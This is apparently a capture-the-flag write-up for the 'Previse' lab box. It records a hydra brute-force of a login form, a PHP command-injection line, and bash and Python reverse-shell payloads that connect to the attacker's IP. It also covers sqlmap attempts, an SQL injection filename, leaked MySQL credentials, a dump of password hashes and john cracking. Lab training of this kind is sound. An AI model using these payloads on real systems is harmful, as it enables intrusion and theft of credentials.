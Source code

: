 ## Info

Can execute these in bash to set variables, which will be used later on in this script.

    ATTACKER=10.10.14.57
    VICTIM=10.10.11.104

## Recon

    bash ../../scripts/discovery/first-scan.sh $VICTIM > recon.txt

Looks like port 22 and 80 are open.

### Port 80

There's a login page, you can `POST http://10.10.11.104/login.php username=asdf&password=ASDF`.

Probably try cred stuffing?

#### Subdir scan

    bash ../../scripts/discovery/subdirectory-scan.sh $VICTIM

#### Cred stuffing

    hydra -l admin -P ~/Git/SecLists/Passwords/Leaked-Databases/rockyou-75.txt $VICTIM -V http-form-post '/login.php:username=^USER^&password=^PASS^:S=Location' -t 64

Apparently it worked. `admin:asdfasdf`. Wow! (Note: Password seems to change on box reboot.)

## Next steps

We have access to the admin interface. Looks like there's a few other users, a way to upload files, and a way to view who downloaded files.

### Downloaded PHP

Some more goodies exist in the code, like hardcoded secrets, but I don't care enough to review them. Command injection may be enough.

-   .`/downloaded-files/siteBackup/logs.php` line 19, command injection
    -   ```php
        $output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
        ```

This is all we need to get a shell.

## Reverse shell via command injection

Run this bash command to generate a payload.

This payload is to be sent via HTTP POST into the 'delim' parameter, at this page: `/file_logs.php`

    echo "comma; bash -i >& /dev/tcp/$ATTACKER/6969 0>&1"

e.g:

    comma; bash -i >& /dev/tcp/10.10.14.57/6969 0>&1

Then, run this in JavaScript to modify the form (change IP if needed):

    $('option').value = "comma && bash -i >& /dev/tcp/10.10.14.57/6969 0>&1"
    $('option').innerHTML = "payload ;)"

Then, run this on the attacker machine to listen for connections:

    nc -lvp 6969

And submit the form.

And the reverse shell doesn't work. Fuck.

Does the command injection work at all?

Try:

    $('option').value = "comma && sleep 20"
    $('option').innerHTML = "payload ;)"

Sleep works... So the command injection works. Perhaps we just can't make a connection back to the attacker.

## SQLMap

Log in as admin, and get your PHPSESSID cookie.

    console.log(document.cookie)
    PHPSESSID=qv2nlssejob21t9uq9jq67413c

Then run:

    PHPSESSID=whatever
    sqlmap http://$VICTIM/files.php --cookie="PHPSESSID=$PHPSESSID" --forms --method=POST

Yay, nothing happened ;_;

Let's try `accounts.php`...

    sqlmap http://$VICTIM/accounts.php --cookie="PHPSESSID=$PHPSESSID" --forms --method=POST

Nothing either.

## $fileName not parameterized

If I upload to `/files.php`, and the name of the file is an SQL injection payload, I may be able to cause SQLi.

Well, uploading `' or 1=1;--` causes an error.

This is the raw request sent to the server (looks weird due to it being a file upload):

    -----------------------------42444973397781975353726677533
    Content-Disposition: form-data; name="userData"; filename="' or 1=1;--"
    Content-Type: application/octet-stream

    please upload me 😔
    -----------------------------42444973397781975353726677533--


Let's try to make a better payload.

We control `$fileName` in this code:

```php
$sql = "INSERT INTO files(name, size, data, user) VALUES('{$fileName}', '{$fileSize}', '{$fileData}', '{$_SESSION['user']}')";
```

So we could spoof records with a payload thusly:

    filename69', '69', 'good content', 'admin');--

Doesn't work.

## SQLMap again

https://www.liquidmatrix.org/blog/sql-injection-using-sqlmap-multipartform-data-encoding/

Apparently we're supposed to use a file containing POST data as a template.

    sqlmap --cookie="PHPSESSID=$PHPSESSID" -r payloads/sqlmap-request.txt --method=POST -p "userData"

Still not working.

Fuck it, time to cheat, hooray!

## cheaty cheaty

<https://medium.com/acm-juit/previse-htb-writeup-a3d0acecb937>

Apparently I'm supposed to use a different method of getting reverse shell.

### reverse shell part 2

Attacker runs:

    nc -lvp 6969

Victim (on <http://10.10.11.104/file_logs.php>):

    $('option').value = `delim=comma;export RHOST="10.10.14.57";export RPORT=6969;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`
    $('option').innerHTML = "payload ;)"

It works, I got shell! I should keep a list of different reverse shell payloads since the bash one doesn't always work.

## in da shell

Looks like there's a user called m4lwhere.

## MySQL

Note: This value

    $1$🧂llol$

Is used to encrypt database passwords with php `crypt` function. May be useful later. EDIT: no, it's a salt.

Also, we can now connect to the MySQL database. Look at `config.php` for creds.

    mysql -u root -p'mySQL_p@ssw0rd!:)'
    show databases;
    use previse;
    show tables;
    select * from accounts;

    +----+----------+------------------------------------+---------------------+
    | id | username | password                           | created_at          |
    +----+----------+------------------------------------+---------------------+
    |  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
    |  2 | userz    | $1$🧂llol$Wjo5WuNanNDwUu4kuNMCB. | 2022-01-01 19:24:51 |
    |  3 | admin    | $1$🧂llol$vEWfJq7ewIW8g5ru0hBxv. | 2022-01-01 19:30:36 |
    +----+----------+------------------------------------+---------------------+

### Cracking mysql hashes

    john downloaded-files/hashes.mysql.txt
    john downloaded-files/hashes.mysql.txt --show
